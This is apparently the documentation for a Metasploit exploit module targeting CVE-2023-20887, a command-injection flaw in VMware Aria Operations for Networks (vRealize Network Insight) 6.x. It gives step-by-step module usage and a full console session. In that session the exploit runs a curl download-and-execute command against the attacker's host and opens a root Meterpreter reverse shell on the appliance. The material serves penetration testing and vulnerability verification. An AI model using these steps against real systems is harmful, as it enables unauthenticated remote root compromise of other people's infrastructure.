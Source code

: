 ## Vulnerable Application

VMWare Aria Operations for Networks (vRealize Network Insight) is vulnerable to command injection
when accepting user input through the Apache Thrift RPC interface. This vulnerability allows a
remote unauthenticated attacker to execute arbitrary commands on the underlying operating system
as the root user. The RPC interface is protected by a reverse proxy which can be bypassed.
VMware has evaluated the severity of this issue to be in the Critical severity range with a
maximum CVSSv3 base score of 9.8. A malicious actor can get remote code execution in the
context of `root` on the appliance.
VMWare 6.x version are vulnerable.

This module exploits the vulnerability to upload and execute payloads gaining root privileges.
Successfully tested against version 6.8.0.

### Install



## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/vmware_vrni_rce_cve_2023_20887`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `set FETCH_SRVHOST [ip]`
1. Do: `run`
1. You should get a root shell.

## Options

## Scenarios

### VMware vRealize Network Insight 6.8.0 1666364233

```
msf6 > use linux/http/vmware_vrni_rce_cve_2023_20887
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set rhost 192.168.1.60
rhost => 192.168.1.60
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set lhost 192.168.1.69
lhost => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set FETCH_SRVHOST 192.168.1.69
FETCH_SRVHOST => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > options

Module options (exploit/linux/http/vmware_vrni_rce_cve_2023_20887):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.60     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hHTNUdqFrV       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.1.69     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.69     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > run

[*] Started reverse TCP handler on 192.168.1.69:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.60:443 can be exploited.
[+] The target appears to be vulnerable. Target is running VMWare Aria Operations for Networks (vRealize Network Insight).
[*] Executing Unix (In-Memory) with curl -so ./hPflBCdJ http://192.168.1.69:8080/IuNTbJhCeJ7dM3CRAasGAw; chmod +x ./hPflBCdJ; ./hPflBCdJ &
[*] pop thy shell!!!
[*] Sending stage (3045348 bytes) to 192.168.1.60
[*] Meterpreter session 3 opened (192.168.1.69:4444 -> 192.168.1.60:47346) at 2023-06-16 15:02:53 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.60
OS           : Ubuntu 18.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
